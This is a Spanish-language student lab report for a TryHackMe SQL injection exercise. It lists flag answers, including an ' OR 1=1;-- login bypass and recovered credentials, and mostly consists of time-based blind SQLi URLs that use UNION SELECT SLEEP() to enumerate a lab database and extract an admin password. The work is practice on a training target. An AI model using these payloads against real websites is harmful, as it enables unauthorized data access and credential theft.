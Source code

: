 # Práctica 5 - SQLi

* Integrantes:
	- Pedro Méndez Jose Manuel - 315073120
	- Azpeitia García Karyme Ivette - 317340385

## Banderas

Estas se encuentran en el archivo BanderasTHM.txt

* Para las otras banderas:
	- :pa$$word
	- ' OR 1=1;--
	- admin:3845

Algunos comandos ocupados para obtener la ultima bandera:

* https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four%';--

* https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name like 'users%';--

* La base era 'sqli_four%', una tabla es 'users' y sus columnas son: id, username, password

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM information_schema.columns where table_schema = 'sqli_four' and table_name = 'users' and COLUMN_NAME like 'password%' and COLUMN_NAME !='id';--

 	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username like 'admin%' ;--

	- Con este input: **https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username like 'admin%';--** obtenemos que admin es un usuario valido

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username = 'admin' and password like '%';--

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 from users where username='admin' and password like '9%';--

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(3),2 FROM users where username='admin' and password like '4961%'; --

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username='admin' and password like '4961%'; --

### Cuenta que realizo el laboratorio.

Username: [Ntory](https://tryhackme.com/p/Ntory)

------
📢⌨️ with ❤️ by [Jose-MPM](https://github.com/Jose-MPM) 😊⌨️ and [Kary-GOD](https://github.com/Kary-AG) 😊⌨️🎁
